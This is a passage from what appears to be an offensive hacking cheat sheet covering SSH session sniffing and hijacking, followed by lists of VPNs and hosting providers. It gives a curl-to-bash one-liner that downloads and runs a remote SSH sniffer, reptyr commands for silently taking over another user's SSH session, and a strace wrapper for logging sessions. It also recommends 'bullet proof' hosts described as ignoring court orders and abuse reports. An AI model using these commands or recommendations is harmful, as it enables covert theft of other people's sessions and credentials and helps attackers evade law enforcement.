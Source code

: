 Create a wrapper script called 'ssh' that executes strace + ssh to log the session:
<details><summary>Show wrapper script - CLICK HERE</summary></details>

The SSH session will be sniffed and logged to *~/.ssh/logs/* the next time the user logs into his shell and uses SSH.

<a id="ssh-sniffing-sshit"></a>
**10.vi Sniff a user's outgoing SSH session using SSH-IT**

The easiest way is using [https://www.thc.org/ssh-it/](https://www.thc.org/ssh-it/).

```sh
bash -c "$(curl -fsSL https://thc.org/ssh-it/x)"
```

<a id="hijack"></a>
**10.vii Hijack / Take-over a running SSH session**  

Use [https://github.com/nelhage/reptyr](https://github.com/nelhage/reptyr) to take over an existing SSH session:
```sh
ps ax -o pid,ppid,cmd | grep 'ssh '
./reptyr -T <SSH PID>
### or: ./reptyr -T $(pidof -s ssh)
### Must use '-T' or otherwise the original user will see that his SSH process gets suspended.
```

---
<a id="vpn-shell"></a>
## 11. VPN & Shells
<a id="shell"></a>
**11.i. Disposable Root Servers**

```console
$ ssh root@segfault.net # Use password 'segfault'
```

https://thc.org/segfault

<a id="vpn"></a>
**11.ii. VPN/VPS/Proxies**

Trusted VPN Providers
1. https://www.mullvad.net
1. https://www.cryptostorm.is
1. https://proton.me - Offers FREE VPN
1. https://vpn.fail - Run by volunteers

Virtual Private Servers
1. https://www.hetzner.com - Cheap
2. https://hivecloud.pw - No KYC. Bullet Proof. Accepts Crypto.
1. https://dmzhost.co - Ignore most abuse requests
2. https://alexhost.com - No KYC. Bullet Proof. DMCA free zone
3. https://basehost.eu - Ignores court orders
4. https://buyvm.net - Warez best friend
5. https://serverius.net - Used by gangsters
6. https://1984.hosting - Privacy
7. https://bithost.io - Reseller for DigitalOcean, Linode, Hetzner and Vultr (accepts Crypto)
8. https://www.privatelayer.com - Swiss based.
